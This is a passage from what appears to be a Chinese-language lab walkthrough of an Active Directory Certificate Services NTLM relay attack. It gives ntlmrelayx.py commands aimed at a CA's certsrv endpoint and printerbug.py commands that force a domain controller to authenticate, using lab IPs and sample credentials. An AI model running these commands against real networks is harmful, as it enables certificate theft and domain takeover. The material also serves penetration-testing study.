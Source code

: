 ```plain
#格式：
python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs 

#示例：
python3 ntlmrelayx.py -t http://192.168.174.160/certsrv/certfnsh.asp -smb2support --adcs
```

[![](assets/1701606771-be3dad0ca67b02a938136c68fccf7692.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144203-989bf14e-7c6f-1.png)  
Step 4：利用打印机服务漏洞强制认证  
a、使用 printerbug  
[https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)

```plain
#格式：
python printerbug.py domain/username:password@<targetName or Address> <hostname to connect to>

#示例：
python3 printerbug.py hacke/testuser:'test@123'@dc.hacke.testlab 192.168.174.129
```

[![](assets/1701606771-ad6c65f07f67c5a28721ebc2b078296d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144227-a6b291fc-7c6f-1.png)  
成功获取到证书数据信息：  
